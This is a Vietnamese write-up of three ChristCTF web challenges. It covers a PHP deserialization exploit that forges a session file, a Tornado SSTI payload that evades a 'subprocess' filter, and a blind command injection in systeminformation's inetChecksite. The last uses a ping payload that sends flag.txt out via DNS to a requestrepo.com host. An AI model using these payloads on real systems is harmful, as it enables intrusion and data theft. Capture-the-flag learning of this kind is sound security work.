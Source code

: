 # LUCKY BOIZ

## PHÂN TÍCH

Đây là một bài về lỗi php deserialize.

``` 
if(isset($_SESSION["user"])){
    if($_SESSION["user"]==="santa_claus ")  echo "".$flag;
}
```
Ta thấy để có flag thì $_SESSION["user"] phải bằng với "santa_claus "

Bài này nó cho phép ta gửi 1 tham số là ser trong get request sau đó deserialize giá trị này.
```
if (isset($_GET['ser'])) unserialize($_GET['ser']);
```
Đây là class secret mà để cho , giờ ta tìm cách để sau khi unserialize ta có $_SESSION["user"] = "santa_claus "

![](images/2021-12-25-06-55-04.png)

```
   __toString sẽ được gọi khi object được xử lí như một string 

   __destruct sẽ được gọi khi một object bị huỷ đi or không còn đƯợc sử dụng 

   Tham khảo: https://www.php.net/manual/en/language.oop5.magic.php

```
Và mục tiêu của ta là ghi vào file /tmp/sess_PHPSESSIONID vì file này lưu những giá trị của biến $_SESSION (mỗi user sẽ có một cái khác nhau) và thay đổi nó thành giá trị "santa_claus ". Và định dạng được lưu trong file này là dạng serialize

Vd: nếu $_SESSION["user"] = "d47" thì nội dung của file sẽ là: `user|s:3:'d47';`


## KHAI THÁC

```
<?php
class secret {
}

$s = new secret();
$s->yoursecret = $s; // Để trigger hàm __toString nó sẽ trả về kết quả là $secret1 sẽ bằng $secret
$s->descript = "user|s:12:'santa_claus ';"; // Nội dung của file sesion mà ta muốn ghi
$s->filename = "sess_eabe6fc0553da759da5383b2d5d24e9d"; // Tên file sẽ được ghi vào

var_dump(serialize($s)); 
```
` FLAG: ChristCTF{Nô-en-Zui-zẻ-nhe!,Mấy-bạn-có-gấu-chưa-chứ-tui-có-gấu-rồi-đó} flag gây tổn thương sâu sắc đến ae đang chơi :((`

# Mini Con cu lay tờ 

## PHÂN TÍCH

Đề cho ta một cái ô input và ta sẽ nhập giá trị và sau đó sẽ tính toán kết quả trả về, sau một hồi fuzz thì mình thấy nó dính SSTI, mà phía backend đang code bằng python . Lúc đầu mình bị mắc chỗ này lâu vc, vì nghĩ là nó đang sài template là jinja2, nhưng méo phải nó đang sài tornado

Vậy giờ kiếm payload của thằng này để lấy flag thôi.

## KHAI THÁC

` PAYLOAD: eval('__import__("subpr"+"ocess").getoutput("ls")')` do đề filter chữ subprocess nên ta cộng chuỗi ở đấy để bypass

![](images/2021-12-25-07-10-56.png)

` FLAG: ChristCTF{M1N1_G1FT_4_XMA5} `

# CaptureME

## PHÂN TÍCH

Bài này chỉ có endpoint duy nhất nên ta chỉ cần tập trung vào mình nó.

![](images/2021-12-25-07-17-32.png)



Mình thấy cái hàm `inetChecksite` này khá lạ và nó thuộc package `systeminformation`, kiểm tra version của nó trong file `package.json`, sau đó gu gồ , thì thấy thằng này có dính lỗi `command injection`. Nhưng trong bài này là dạng `blind commnad injection` vì output sẽ không được trả ra.


Tới đây mình nghĩ sẽ tạo một reverse-shell, nhưng đều failed vì trên phía server đã chặn hết các giao thức. Ban đầu mình sử dụng curl để gửi request đến server của mình thì ok, nhưng sau đó dùng curl để upload file `flag.txt` thì đã bị chặn or filter.
Sau một hồi fuzz thì mình tìm đến `DNS`, vì hầu như ứng dụng web nào cũng đều hỗ trợ giao thức `DNS`. 


Nhưng mà loay hoay một hồi mình sài lệnh nslookup, dig, host, blabla nó vẫn ko work. Cuối cùng sài lệnh `ping` thì lại oke .
## EXPLOIT

`` PAYLOAD: http://45.119.84.224:4000/CaptureSite?url[]=$(ping%20`cat%20flag.txt`.ekiajtf3.requestrepo.com)``

` FLAG: ChristCTF{R3v3r53_5h3ll_i5_v3ry_345y_5738246dhcbw}`

### Cuối cùng xin cảm ơn câu lạc bộ ATTT của đại học PTIT đã tạo ra sân chơi hữu ích vào đúng dịp Noel, để ae ko có gấu vào chơi cho đỡ buồn.

